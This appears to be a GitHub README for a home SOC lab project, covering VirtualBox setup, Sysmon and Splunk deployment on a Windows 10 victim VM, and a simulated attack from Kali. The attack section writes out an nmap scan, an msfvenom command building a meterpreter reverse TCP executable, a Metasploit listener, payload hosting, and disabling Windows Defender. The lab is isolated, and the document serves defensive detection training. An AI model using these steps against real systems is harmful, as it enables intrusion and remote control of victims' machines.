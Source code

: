 <p align="center">
<img src="https://i.imgur.com/yGtOeVI.jpeg" alt="Basic Home SOC Lab Steps"/>
</p>

<br>
<h1>Building a Basic Home SOC Lab for Threat Detection and Analysis</h1>



<h2>Project Description</h2>
This project details the setup of a fundamental Security Operations Center (SOC) lab environment utilizing VirtualBox. The lab integrates a Kali Linux virtual machine (VM) for simulating attacks and a Windows 10 VM configured with Sysmon and Splunk for advanced log collection and centralized security information and event management (SIEM) capabilities. The objective is to demonstrate the process of launching a simulated attack (using Nmap, msfvenom, and Metasploit) to establish a reverse TCP shell, interpret detailed telemetry via Sysmon, and analyze attack patterns and behaviors within Splunk to understand real-time detection opportunities. This project showcases practical skills in cybersecurity lab setup, offensive security simulation, and defensive security analysis.



<h2>Environments and Technologies Used</h2>

- <b>Virtualization:</b> VirtualBox
- <b>SIEM:</b> Splunk Enterprise
- <b>Endpoint Telemetry:</b> Sysmon
- <b>Offensive Security Tools:</b> Nmap, Msfvenom, Metasploit Framework



<h2>Operating Systems Used</h2>

- <b>Kali Linux VM:</b> Used as the attacker machine, hosting offensive security tools.
- <b>Windows 10 VM:</b> Configured as the victim machine, with security tools for log generation and aggregation.



<h2>Overview of Steps</h2>
1. <b>Virtual Machine Setup:</b> Creation of isolated Kali Linux and Windows 10 VMs within VirtualBox to establish a sandboxed lab environment.
<br>
2. <b>Defensive Tool Deployment:</b> Installation and configuration of Sysmon and Splunk on the Windows 10 VM for comprehensive log aggregation and analysis.
<br>
3. <b>Offensive Simulation:</b> Utilization of msfvenom, Metasploit, and Nmap to generate a malware payload, establish a reverse TCP shell connection, and conduct network scanning to generate security logs.
<br>
4. <b>Log Ingestion and Analysis:</b> Configuration of Splunk to ingest Sysmon-generated logs, followed by analysis of these logs to identify and interpret attack patterns.


<p>
<h2>Project Walkthrough</h2>
<h3> Step 1: Virtual Machine Setup </h3>
1. Download VirtualBox and its associated hash file. Verify the integrity of the downloaded VirtualBox installer by comparing its SHA256 hash with the one provided on the official VirtualBox website. This confirms that the file was not corrupted during transit. <br>
<img src="https://i.imgur.com/C0JCgwB.png" alt="Disk Sanitization Steps"/>
<br>
<img src="https://i.imgur.com/4a3jLg3.png" alt="Disk Sanitization Steps"/>
<br>
2. Install VirtualBox. Prepare the Windows 10 virtual machine by installing the Windows ISO file.
<br>
<img src="https://i.imgur.com/rYoTIzL.png" alt="Basic Home SOC Lab Steps"/>
<br />
3. Configure the Windows 10 VM settings, including assigning 5120 MB of base memory and 4 processors (Always remember to choose your memory and processor settings according to your system capacity). Set the network adapter to "Internal Network" with the name 'mytest' to ensure a sandboxed environment.
<br>
<img src="https://i.imgur.com/617njbE.png" alt="Basic Home SOC Lab Steps"/>
<br />
4. Download a pre-built Kali Linux virtual machine image from the official Kali Linux website, specifically designed for VirtualBox. Set up the Kali Linux VM in VirtualBox. Configure its settings, including assigning 2048 MB of base memory and 4 processors.
<br>
<img src="https://i.imgur.com/nRpMGec.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/sJV0QRq.png" alt="Basic Home SOC Lab Steps"/>
<br>
5. To ensure a completely isolated environment, create an internal network named 'mytest' in the network adapter settings for both the Kali Linux and Windows 10 VMs. This isolates the lab from the host machine and external networks.
<br>
<img src="https://i.imgur.com/sVbKyvJ.png" alt="Basic Home SOC Lab Steps"/>
<br>
6. Take snapshots of both VMs' states. This provides a backup to revert to a known working state if any configuration errors occur.
<br>
<img src="https://i.imgur.com/XxKSAAS.png" alt="Basic Home SOC Lab Steps"/>
<br>
<h3> Step 2: Network Configuration</h3>
1. Within the Windows 10 VM, navigate to the network adapter settings, locate the IPv4 configuration, and assign a static IP address to the virtual network adapter.
<br>
<img src="https://i.imgur.com/wWsmInc.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/CFUoWpO.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/d8L2Ys7.png" alt="Basic Home SOC Lab Steps"/>
<br>
2. Configure the Kali Linux VM with a static IP address. This is done by editing the wired connection settings and manually setting the IP address, netmask, and gateway. <i>Temporarily change the adapter setting to NAT for internet connectivity to download Sysmon and Splunk on the Windows VM, then revert to the internal network. </i>
<br>
<img src="https://i.imgur.com/8Oee3q9.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/OTGxo18.png" alt="Basic Home SOC Lab Steps"/>
<br>
<h3> Step 3: Defensive Tool Deployment (Windows 10 VM)</h3>
<br>
1. Access the main webpage for Sysmon on the Windows VM and then navigate to its GitHub page to download the Sysmon configuration repository's raw data. 
<br>
<img src="https://i.imgur.com/d8bskfs.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/m7ouL8r.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/K9RjhyV.png" alt="Basic Home SOC Lab Steps"/>
<br>
2. Extract the downloaded Sysmon files within the Windows VM.
<br>
<img src="https://i.imgur.com/eYRprN7.png" alt="Basic Home SOC Lab Steps"/>
<br>
3. Open PowerShell as administrator, navigate to the directory where Sysmon was extracted, and use the command to install Sysmon onto the system with the desired configuration.
<br>
<img src="https://i.imgur.com/1WcNCCU.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/fLCFNsO.png" alt="Basic Home SOC Lab Steps"/>
<br>
4. Confirm Sysmon's successful installation by checking the list of running services on the Windows VM.
<br>
<img src="https://i.imgur.com/b3E5X4O.png" alt="Basic Home SOC Lab Steps"/>
<br>
5. Download Splunk Enterprise and proceed with its installation on the Windows VM. After the installation, log into the Splunk web interface via a browser within the Windows VM.
<br>
<img src="https://i.imgur.com/l4kRr6M.png" alt="Basic Home SOC Lab Steps"/>
<br>
<h3> Step 4: Offensive Simulation (Kali Linux VM & Windows 10 VM)</h3>
1. From the Kali Linux machine, use Nmap (e.g., nmap -A [Windows_VM_IP_Address] -Pn) to scan the Windows 10 VM and identify open ports and services.
<br>
<img src="https://i.imgur.com/YTJAUkw.png" alt="Basic Home SOC Lab Steps"/>
<br>
2. Use msfvenom to create a malware payload designed to establish a reverse shell.
<br>
<img src="https://i.imgur.com/OqC0ItW.png" alt="Basic Home SOC Lab Steps"/>
<br>
Identify available payloads using <i>msfvenom --l payloads </i>
<br>
<img src="https://i.imgur.com/PDdvU4u.png" alt="Basic Home SOC Lab Steps"/>
<br>
Select the <i>windows/x64/meterpreter_reverse_tcp</i> payload.
<br>
<img src="https://i.imgur.com/i9se2bg.png" alt="Basic Home SOC Lab Steps"/>
<br>
Construct the malware using a command similar to <i>msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=[Kali_IP] LPORT=[Port] -f exe -o malware.exe </i>, where LHOST is the Kali Linux machine's IP address. 
<br>
<img src="https://i.imgur.com/F7dYAZe.png" alt="Basic Home SOC Lab Steps"/>
<br>
3. Set Up Metasploit Listener. Open <i>msfconsole</i> on the Kali Linux Machine. Configure a multi-handler to listen for the incoming connection by setting the payload type <i>set payload windows/x64/meterpreter_reverse_tcp</i> and the LHOST to the Kali Linux VM's IP Address. Then start the exploit with the command <i>exploit</i> to initiate the listener
<br>
<img src="https://i.imgur.com/bRgFSm1.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/6z0fqr0.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/CpisCKg.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/FuSSrUn.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/R0p7T2M.png" alt="Basic Home SOC Lab Steps"/>
<br>
4. Host Payload wiht HTTP Server. Set up a simple HTTP server on the Kali Linux machine to host the generated malware payload, allowing the Windows VM to download it. This typically involves opening a new terminal tab and using a command like <i>python3 -m http.server [port]</i>
<br>
<img src="https://i.imgur.com/jlBPEqu.png" alt="Basic Home SOC Lab Steps"/>
<br>
5. Disable Windows Defender: On the Windows 10 VM, temporarily disable Windows Defender to allow the simulated malware to execute without immediate detection.
<br>
<img src="https://i.imgur.com/GGDJlfE.png" alt="Basic Home SOC Lab Steps"/>
<br>
6. Download and Execute Malware: Open a web browser on the Windows VM, navigate to the Kali Linux machine's IP address and port <i> http://[Kali_IP]:[Port]/malware.exe</i>, and download the payload. Execute the downloaded malware.
<br>
<img src="https://i.imgur.com/yFZT8lA.png" alt="Basic Home SOC Lab Steps"/>
<br>
7. Verify Reverse Shell: Open a command prompt (cmd) on the Windows machine and verify that a connection has been established to the Kali Linux machine. On the Kali Linux VM, confirm the established Meterpreter session and type <i>shell</i> to gain a command-line interface on the compromised Windows machine.
<br>
<img src="https://i.imgur.com/kO5wWkQ.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/p1pPuzI.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/BXWGPB2.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/miaKVss.png" alt="Basic Home SOC Lab Steps"/>
<br>
<h3> Step 5: Splunk Log Analysis</h3>
1. Configure Splunk for Sysmon Logs: Ensure that Splunk is configured to ingest Sysmon logs. This often involves adjusting the input.conf file in Splunk to define the source type and directory for Sysmon events. Additionally, create a new index in the Splunk console for these logs.
<br>
<img src="https://i.imgur.com/2Lgc0jC.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/YXzCH8N.png" alt="Basic Home SOC Lab Steps"/>
<br>
2. Analyze Attack Patterns in Splunk: After the malware execution, search specifically for the malware's filename or related process events within Splunk. Observe the logs to identify attack patterns and behaviors, understanding how Sysmon telemetry contributes to detection.
<br>
<img src="https://i.imgur.com/61Giuk7.png" alt="Basic Home SOC Lab Steps"/>
<br>

</p>
<br>
<img src="" alt="Basic Home SOC Lab Steps"/>
<br>
